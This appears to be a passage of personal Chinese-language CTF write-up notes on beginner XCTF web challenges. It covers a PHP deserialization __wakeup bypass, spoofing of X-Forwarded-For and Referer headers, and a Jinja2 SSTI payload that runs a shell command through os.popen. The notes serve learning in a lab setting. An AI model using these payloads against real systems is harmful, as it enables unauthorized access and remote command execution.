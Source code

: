得到序列化后数据

```php
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

![image-20240323151413060](D:\文档\ctf\assets\image-20240323151413060.png)

返回bad requests，也就是wakeup中的代码

绕过wakeup

```php
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

![image-20240323151518090](D:\文档\ctf\assets\image-20240323151518090.png)

##### 总结：反序列化绕过wakeup



#### view_source

F12看源码



#### xff_referer

![image-20240323170624640](D:\文档\ctf\assets\image-20240323170624640.png)

在header中添加参数

##### X-Forwarded-For（XFF）和 Referer

- **X-Forwarded-For（XFF）**：通常由代理服务器添加，用于指示真实的客户端 IP 地址。然而，由于 XFF 是一个自定义的标头，并且可以由客户端修改，因此不应该完全信任它来确定客户端的真实 IP 地址。特别是在使用 CDN 或代理服务器时，XFF 可能会被篡改，因此不应该作为唯一确定客户端 IP 地址的方法。
- **Referer**：Referer 标头包含了发起当前请求的来源 URL。虽然 Referer 标头在某些情况下可以提供有用的信息，但同样可以被伪造。例如，可以通过修改请求的 Referer 标头来尝试欺骗服务器，以获取未经授权的访问或执行其他攻击。

![image-20240323170557881](D:\文档\ctf\assets\image-20240323170557881.png)



#### Web_python_template_injection

![image-20240323222102916](D:\文档\ctf\assets\image-20240323222102916.png)

只给了这个

搜索python template injection

[以 Bypass 为中心谭谈 Flask-jinja2 SSTI 的利用 - 先知社区](https://xz.aliyun.com/t/9584?time__1311=n4%2BxuDgD9ADtDQII40ywbDyiYDO%2BO3DcD3D)

可以利用下面的payload进行注入

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```
